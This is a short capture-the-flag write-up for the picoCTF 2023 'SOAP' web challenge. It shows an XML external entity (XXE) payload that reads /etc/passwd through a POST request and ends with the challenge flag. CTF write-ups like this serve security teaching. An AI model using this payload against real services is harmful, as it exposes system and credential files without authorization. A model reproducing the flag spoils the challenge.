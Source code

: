 # SOAP
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
## Challenge information
```text
Tags: Web Explotation, picoCTF 2023, XXE

Description: 
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Hints: 
1. XML external entity Injection
```
## Overview
![alt text](/CTF/picoCTF/Static/Images/SOAP/image1.png)  
## Solution
**Step 1:**  Exploit  
![alt text](/CTF/picoCTF/Static/Images/SOAP/image2.png)  
* Request uses xml as the payload to send the post  
=> Xml injection vulnerability exists  
* We will use:  
```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [

  <!ENTITY xxe SYSTEM "file:///etc/passwd"> 

]>

<data><ID>&xxe;</ID></data>
```
## Flag
`picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}`